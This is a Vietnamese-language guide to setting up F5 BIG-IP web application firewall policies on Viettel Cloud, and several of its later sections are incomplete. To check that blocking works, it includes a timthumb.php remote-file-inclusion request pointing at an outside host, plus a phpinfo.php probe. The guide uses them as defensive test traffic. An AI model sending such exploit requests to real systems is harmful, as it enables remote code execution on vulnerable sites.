

# Advanced Web Application Firewall and API Protection
## Giới thiệu tổng quan
Một trong những dịch vụ quan trọng mà F5 Services cung cấp trên nền tảng Viettel Cloud là dịch vụ bảo vệ lớp ứng dụng. Cụ thể ở đây là bảo vệ các ứng dụng web-based, một số thuật ngữ thường được sử dụng cho dịch vụ này là Web Application Firewall (WAF), hoặc Web Application and API Protection (WAAP)
## Hướng dẫn cấu hình
### Tìm hiểu môi trường, ứng dụng, các thiết lập cần thiết ban đầu

#### Cấu hình lưu log các vi phạm
Trên giao diện quản trị web của F5 BIG-IP, vào menu `Security` > `Event Logs` > `Logging Profiles`, bấm vào nút `Create`

Tại màn hình tiếp theo:
- Đặt tên cho profile, ví dụ `security_log_profile`
- Chọn `Application Security` (đối với tính năng WAF và API Protection)
- Chọn `DoS Protection` (đối với tính năng Layer 7 Dos Protection)
Nếu chọn mục `DoS Protection`, cần chọn ô `Local Publisher` trong tab tương ứng hiện ra sau đó
- Chọn `Bot Defense` (đối với tính năng Layer 7 Dos Protection)
Nếu chọn mục `Bot Defense`, cần chọn ô `Local Publisher` trong tab tương ứng hiện ra sau đó. Ngoài ra, đối với `Bot Defense`, cần chọn thêm ít nhất 1 loại request cần log, ví dụ `Untrusted Bot`, `Malicious Bot`, `Suspicious Browser`

Bấm vào `Create` để tạo log profile.

### Tạo security policy

> Lưu ý: Trước khi tiến hành các bước dưới đây (với bất kỳ loại policy nào), cần đảm bảo rằng ứng dụng đang hoạt động với F5 BIG-IP đóng vai trò như thiết bị cân bằng tải, reverse proxy. Nghĩa là các cấu hình liên quan như DNS, node, pool, monitor, ssl, virtual server đều đang hoạt động đúng và người sử dụng có thể truy cập bình thường.

#### I. Khởi tạo chính sách bảo mật chế độ triển khai theo loại ứng dụng (ví dụ Wordpress)
Trường hợp này, người quản trị bảo mật đã có hiểu biết rằng ứng dụng mà mình đang thiếp lập chính sách bảo mật được phát triển dựa trên wordpress
(https://vi.wordpress.org/). Không tiến hành các bước bên dưới nếu không phải.

Trên giao diện quản trị web của F5 BIG-IP, vào menu `Security` > `Application Security` > `Security Policies` > `Policies List`, bấm vào nút `Create`.

Trong màn hình tiếp theo:
- Policy Name : đặt tên cho policy, ví dụ `wordpress_waf_policy`
- Policy Template: chọn mục `Application-ready templates` > `Wordpress v4.9`
- Virtual Server: chọn virtual server sẽ apply (đang chạy Wordpress trên đó)
- Logging Profiles: chọn logging profile đã tạo ở bước trên, ví dụ `security_log_profile`

Bấm vào nút `Save` để lưu lại. Như vậy, ứng dụng đã được bảo vệ.

> Để kiểm tra xem chính sách bảo mật này có đang hoạt động hay không, có thể thử một dạng tấn công vào lỗ hổng bảo mật của Wordpress, ví dụ CVE-2014-4663 (https://blog.sucuri.net/2011/08/attacks-against-timthumb-php-in-the-wild-list-of-themes-and-plugins-being-scanned.html).
Để thực hiện khai thác lỗ hổng, gửi một GET request tới đường dẫn `/wp-content/plugins/wordpress-gallery-plugin/timthumb.php?src=http://picasa.com12345.dyndns.org/1.php`. Nếu cấu hình thành công, hệ thống F5 BIG-IP sẽ chặn khai thác này, đưa ra một thông báo lỗi và kèm theo đó là một số `Support ID`, ghi nhận lại mã số này để tra cứu log. Truy cập vào giao diện quản trị F5 BIG-IP, vào mục `Security` > `Event Logs` > `Application` > `Requests`, nhập mã Support ID vào bộ lọc tìm kiếm, ta sẽ thấy một bản ghi log liên quan đến việc F5 BIG-IP chặn lại hành vi khai thác lỗ hổng bảo mật này.

#### II. Khởi tạo chính sách bảo mật chế độ triển khai nhanh - Rapid deployment policy
Trường hợp này, người quản trị hệ thống muốn cấu hình nhanh một chính sách bảo mật mà qua đó có thể áp dụng ngay, không mất quá nhiều thời gian cho hệ thống tự học (learn) cũng như giảm thiểu tình trạng false positive alarms.
Nói chung, kiểu triển khai này có thể giải quyết được đa số các yêu cầu về bảo mật cho một ứng dụng web.

Trên giao diện quản trị web của F5 BIG-IP, vào menu `Security` > `Application Security` > `Security Policies` > `Policies List`, bấm vào nút `Create`.

Trong màn hình tiếp theo:
- Policy Name : đặt tên cho policy, ví dụ `rapid_waf_policy`
- Policy Template: chọn mục `Rapid Deployment Policy`
- Virtual Server: chọn virtual server sẽ apply (đang chạy ứng dụng trên đó)
- Logging Profiles: chọn logging profile đã tạo ở bước trên, ví dụ `security_log_profile`
- Enforcement Mode: được đặt là `Transparent` - nghĩa là hệ thống vẫn kiểm tra nhưng không chặn ngay cả khi có vi phạm. Điều này giúp người quản trị bảo mật có thời gian xem xét các thiết lập bảo mật trước khi chuyển sang chế độ `Block`. Nếu muốn, người quản trị có thể bật chế độ `Blocking` ngay tại bước này.
- Signature Staging: mặc định được bật (`Enable`), nghĩa là hệ thống sẽ chưa chặn ngay các vi phạm dựa trên signature nhằm tránh tình trạng false positive. Nếu muốn, người quản trị có thể `Disable` chế độ này luôn.
- Server Technologies: có thể nhập (chọn trong danh sách) các công nghệ mà ứng dụng đang sử dụng, ví dụ phổ biến như Apache làm web server, engine PHP, cơ sở dữ liệu MySQL.. Các thiết lập này giúp F5 BIG-IP xây dựng bộ các signature cho phù hợp.

Bấm vào nút `Save` để lưu lại. Như vậy, ứng dụng đã được bảo vệ (nếu `Enforcement Mode` là `Blocking` và `Signature Staging` là `Disable`)

> Để kiểm tra xem chính sách bảo mật này có đang hoạt động hay không, có thể thử một dạng tấn công dò quét xem hệ thống có vô tình chứa file phpinfo.php hay không (file này thường chứa hàm gọi `phpinfo()` sẽ hiện ra rất nhiều thông tin hệ thống của web server cũng như môi trường PHP, hacker có thể khai thác các thông tin này để thực hiện các hành vi tấn công nguy hiểm khác.
Để thực hiện khai thác lỗ hổng, gửi một GET request tới đường dẫn `/phpinfo.php`. Nếu cấu hình thành công, hệ thống F5 BIG-IP sẽ chặn khai thác này, đưa ra một thông báo lỗi và kèm theo đó là một số `Support ID`, ghi nhận lại mã số này để tra cứu log. Truy cập vào giao diện quản trị F5 BIG-IP, vào mục `Security` > `Event Logs` > `Application` > `Requests`, nhập mã Support ID vào bộ lọc tìm kiếm, ta sẽ thấy một bản ghi log liên quan đến việc F5 BIG-IP chặn lại hành vi khai thác lỗ hổng bảo mật này.

Để xem chi tiết hơn về những thiết lập của dạng Rapid Deployment Policy, có thể truy cập vào `Security` > `Application Security` > `Policy Building` > `Learning and Blocking Settings` (chọn đúng tên policy, ví dụ: rapid_waf_policy)

#### III. Khởi tạo chính sách bảo mật chế độ triển khai cơ bản - Fundamental
Trường hợp này, người quản trị mong muốn hệ thống F5 BIG-IP đưa ra các chính sách bảo mật tự động. Dựa vào lưu lượng thực tế F5 BIG-IP sẽ đưa ra các đánh giá và gợi ý và thậm chí tự động áp dụng các luật bảo vệ.

Trên giao diện quản trị web của F5 BIG-IP, vào menu `Security` > `Application Security` > `Security Policies` > `Policies List`, bấm vào nút `Create`.

Trong màn hình tiếp theo:
- Policy Name : đặt tên cho policy, ví dụ `fundamental_waf_policy`
- Policy Template: chọn mục `Fundamental`
- Virtual Server: chọn virtual server sẽ apply (đang chạy ứng dụng trên đó)
- Logging Profiles: chọn logging profile đã tạo ở bước trên, ví dụ `security_log_profile`
- Enforcement Mode được đặt là `Blocking` ngay khi chọn Policy Template là Fundamental
- Policy Building Learning Mode: chuyển về chế độ Automatic (Fully Automatic)
- Trusted IP Addresses: người quản trị nên thiết lập một vài địa chỉ IP hoặc dải mạng tin cậy, nhờ đó F5 BIG-IP có thể tự động thiếp lập chính sách bảo mật và không chặn các địa chỉ IP này trong quá trình học và xây dựng chính sách bảo mật.
- Policy Builder Learning Speed: mặc định là `Medium` (học càng chậm càng chặt chẽ nhưng đòi hỏi ứng dụng có nhiều người truy cập hàng ngày và ngược lại)
- Signature Staging: mặc định được bật (`Enable`), nghĩa là hệ thống sẽ chưa chặn ngay các vi phạm dựa trên signature nhằm tránh tình trạng false positive. Nếu muốn, người quản trị có thể `Disable` chế độ này luôn.
- Server Technologies: có thể nhập (chọn trong danh sách) các công nghệ mà ứng dụng đang sử dụng, ví dụ phổ biến như Apache làm web server, engine PHP, cơ sở dữ liệu MySQL.. Các thiết lập này giúp F5 BIG-IP xây dựng bộ các signature cho phù hợp.

Bấm vào nút `Save` để lưu lại. Như vậy, ứng dụng đã được bảo vệ (nếu `Enforcement Mode` là `Blocking` và `Signature Staging` là `Disable`)

Bước tiếp theo, từ các địa chỉ Trusted IP, người dùng, người quản trị làm việc, thao tác với ứng dụng như bình thường để hệ thống F5 BIG-IP thu thập dữ liệu, học và gợi ý các chính sách.

Để xem hệ thống gợi ý những gì, truy cập vào `Security` > `Application Security` > `Policy Building` > `Traffic Learning`

Ví dụ như hình minh hoạ dưới đây:

Người quản trị có thể chọn một trong các hành động:
- Accept: chấp nhận gợi ý, chuyển thành thiết lập chính thức. Để ý phần score (%), con số này càng lớn nghĩa là F5 BIG-IP càng tự tin với gợi ý đó, khả năng gợi ý chính xác càng cao.
- Delete: xoá gợi ý này, không lưu gì vào policy. Gợi ý có thể lặp lại lần sau nếu có lưu lượng phù hợp. Trường hợp người quản trị chưa chắc chắn lắm về gợi ý có chính xác không nhưng muốn xoá tại thời điểm hiện tại
- Ignore: bỏ qua gợi ý này và yêu cầu F5 BIG-IP không lặp lại gợi ý như vậy nữa (nghĩa là báo với hệ thống này rằng gợi ý như vậy là không đúng, không cần thay đổi gì về policy)
- Export: lưu thông tin gợi ý này ra một file html để nghiên cứu phân tích hoặc gửi đi các bộ phận khác tham khảo trước khi quyết định.

Sau khi hoàn tất quá trình Review các gợi ý, nếu người quản trị muốn apply ngay cách luật đã được chấp nhận, bấm vào nút `Apply Policy`

Để xem các thiết lập hiện thời, truy cập vào `Security` > `Application Security` > `Policy Building` > `Learning and Blocking Settings`

Để xem chi tiết về những File types, Parameters.. mà hệ thống học được, truy cập vào `Security` > `Application Security` > `File types` hoặc `Parameters`..

Ví dụ như hình minh hoạ dưới đây, hệ thống đã học được một số loại file types như png, php 

Ví dụ như hình minh hoạ dưới đây, hệ thống tự học được các dạng file như jpg, png, php. Có 2 loại đặc biệt là * và no_ext:
- `*` nghĩa là các loại file còn lại (wildcard)
- `no_ext` nghĩa là không có phần mở rộng file nào trong URL

Trong mục staging, 

#### IV. Khởi tạo chính sách bảo mật để chặn lọc các tấn công theo OWASP Top 10
Trường hợp này, người quản trị bảo mật có mong muốn cấu hình các chính sách bảo mật nhằm ngăn chặn các tấn công được liệt kê trong danh sách Top 10 của OWASP

Trên giao diện quản trị web của F5 BIG-IP, vào menu `Security` > `Application Security` > `Security Policies` > `Policies List`, bấm vào nút `Create`.

#### V. Các cách thức bypass chức năng WAF
1. Chuyển qua lại chế độ Blocking và Transparent
2. Chuyển qua lại chế độ by-pass tính năng WAF
#### VI. Tinh chỉnh chính sách bảo mật

## Liên hệ hỗ trợ
Yêu cầu hỗ trợ kỹ thuật xin gửi đến địa chỉ: techsupport@viettelcloud.vn
